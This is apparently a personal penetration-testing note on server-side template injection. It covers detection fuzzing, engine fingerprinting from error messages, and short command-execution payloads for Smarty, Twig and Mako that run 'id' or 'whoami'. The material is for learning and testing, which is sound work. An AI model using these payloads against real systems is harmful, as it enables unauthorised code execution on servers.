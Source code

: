  # SSTI
 ## Detection
You can follow a similar approach when looking for template / expression language injections to the one you use when testing an application for stored XSS vulnerabilities - injecting a payload and looking for occurrences of it within the application

> If you are a user of Burp Suite Pro, you should get an extension named J2EE Scan which automatically adds tests for expression language injection

- Try  fuzzing Templating special charchters and see if any exception is raised 
	```
	${{<%[%'"}}%\
	```

- Try to check if it contains a direct XSS vulnerability. Try injecting arbitrary HTML.
	```
	http://vulnerable-website.com/?greeting=data.username<tag>
	```
	In the absence of XSS, this will usually either result in a blank entry in the output (just Hello with no username), encoded tags, or an error message. 
	
- Try and break out of the statement using common templating syntax and attempt to inject arbitrary HTML after it
	```
	http://vulnerable-website.com/?greeting=data.username}}<tag>
	```
if the output is rendered correctly, along with the arbitrary HTML, this is a key indication that a server-side template injection vulnerability is present:
	
## Identify Technology
To better identify the technology, you can first:
- Observe which is the generic technology of the application. If it is java (e.g., you see it uses .jsp extensions), then you can suspect it is an expression language / OGNL.
- Use this diagram as it contains popular behavior of template engines when handling expressions.
![[Pasted image 20210602032331.png]]
- Try to inject unclosed curly braces (be careful as there is a chance you might permanently disable the attacked webpage); this might provoke verbose error disclosing the underlying technology.
- Observe other verbose errors for technology names.
- If you suspect a specific technology, Check documentation for functions specific to that technology such as PHP Twig. Php Twig Can be confirmed by
```php
{{_self.env.display("xyz")}}
```

Another Methodology is:
Although there are a huge number of templating languages, many of them use very similar syntax that is specifically chosen not to clash with HTML characters. As a result, it can be relatively simple to create probing payloads to test which template engine is being used.

Simply submitting invalid syntax is often enough because the resulting error message will tell you exactly what the template engine is, and sometimes even which version.

For example, the invalid expression `<%=foobar%>` triggers the following response from the Ruby-based ERB engine:

```ruby
(erb):1:in `<main>': undefined local variable or method `foobar' for main:Object (NameError)
from /usr/lib/ruby/2.5.0/erb.rb:876:in `eval'
from /usr/lib/ruby/2.5.0/erb.rb:876:in `result'
from -e:4:in `<main>'
```


## Exploitation



## Exploiting Technology Specific SSTIs
### PHP
#### Smarty
```php
{php}echo `id`;{/php}
```

#### Twig
```php
{{_self.env.registerUndefinedFilterCallback("system")}}{{_s
elf.env.getFilter("whoami")}}
```

### Python
#### Maki
```python
<%
import os
x=os.popen('id').read()
%>
${x}
```
